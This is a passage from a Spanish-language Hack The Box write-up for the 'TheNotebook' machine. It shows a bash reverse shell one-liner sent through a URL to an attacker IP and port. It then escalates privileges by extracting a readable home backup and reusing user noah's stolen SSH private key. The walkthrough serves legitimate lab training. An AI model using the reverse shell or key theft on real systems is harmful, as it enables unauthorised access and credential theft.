 2. Nos enviamos la Reverse desde la URL.
```bash
bash -c 'bash -i >%26/dev/tcp/10.10.14.x/PORT 0>%261'
```

![](/assets/images/htb-writeup-thenotebook/Pasted image 20231130174447.png)

Obtendríamos la **Reverse Shell,** tan sólo quedaría darle tratamiento a la TYY, para andar comodamente en la shell, sino sabemos como [((LEE ESTE POST))](https://4uli.github.io/tratamiento-tty/)


# Escalada de Privilegios 1.
___

Indagando en la máquina para escalar privilegios, descubrimos un **backup** con nombre "**home**" por lo que se me ocurre puede ser el directorio personal de algun usuario del sistema.
```bash
ls -la /var/backups/home.tar.gz
```

Listando los permisos, vemos qué podemos leerlo, así que se me ocurre descomprimirlo.
```bash
tar -xzf /var/backups/home.tar.gz
```

![](/assets/images/htb-writeup-thenotebook/Pasted image 20231130175945.png)

Pero no podemos descomprimirlo en éste directorio ya que aquí no tenemos permisos de escritura, así que lo moveré al directorio "**/tmp**".
```bash
cd /tmp/
cp /var/backups/home.tar.gz .
```

y ahora si podríamos descomprimirlo.
```bash
tar -xzf /var/backups/home.tar.gz
```

y encontraríamos el directorio personal del usuario "**noah**", junto con su clave privada **SSH** así que podemos aprovecharnos de ésta para conectarnos como **noah**.


1. Nos copiamos todo el contenido de la "**id_rsa**".

2. En nuestra máquina, nos pegamos la clave y damos permisos correctos al archivo.
```bash
nano id_rsa
chmod 600 id_rsa
```

3. nos conectamos con ésta clave por SSH como **noah**.
```bash
ssh -i id_rsa noah@10.10.10.230
```

y ya estaríamos como "noah"
![](/assets/images/htb-writeup-thenotebook/Pasted image 20231130180647.png)
